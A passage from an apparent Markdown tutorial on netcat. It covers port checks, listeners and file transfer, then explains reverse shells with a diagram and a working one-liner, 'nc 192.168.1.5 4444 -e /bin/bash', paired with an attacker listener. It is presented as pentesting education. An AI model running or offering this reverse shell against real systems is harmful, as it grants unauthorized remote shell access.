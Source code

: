 <a id="netcat-nc--the-swiss-army-knife-of-networking"></a>
### 2.14.1 `netcat` (nc) – The Swiss Army Knife of Networking [🔝](#table-of-contents)

`netcat` (or `nc`) can be used to test ports, transfer files, and even create basic chat or reverse shells.

```bash
nc -zv 192.168.1.10 22         # Check if SSH port is open on a remote host
nc -l -p 1234                  # Start a TCP listener on port 1234
nc 192.168.1.10 1234           # Connect to a listener
```

> 📦 You can also transfer files:
```bash
# On receiving machine:
nc -l -p 4444 > received.txt

# On sending machine:
nc 192.168.1.10 4444 < file.txt
```

---

<a id="reverse-shell-with-netcat"></a>
### 2.14.2 Reverse Shell with `netcat` [🔝](#table-of-contents)

> 🧬 **Diagram: How a Reverse Shell Works**
>
```text
+----------------+        Connects to       +------------------+
|   Victim Host  | -----------------------> |  Attacker (nc -l) |
| nc attacker_ip |                          |   Listening Shell |
+----------------+                          +------------------+
       ^                                               |
       |  Executes /bin/bash over the network          |
       +-----------------------------------------------+
```


> A reverse shell allows a target machine to connect back to the attacker's listener and give shell access. This is often used in pentesting.

```bash
# Attacker (listening for connection):
nc -lvnp 4444

# Victim (connects to attacker and gives shell):
nc 192.168.1.5 4444 -e /bin/bash
```

> ⚠️ This only works with traditional `netcat`. Some versions (like `ncat`) use different flags. Ensure it supports `-e`.

---
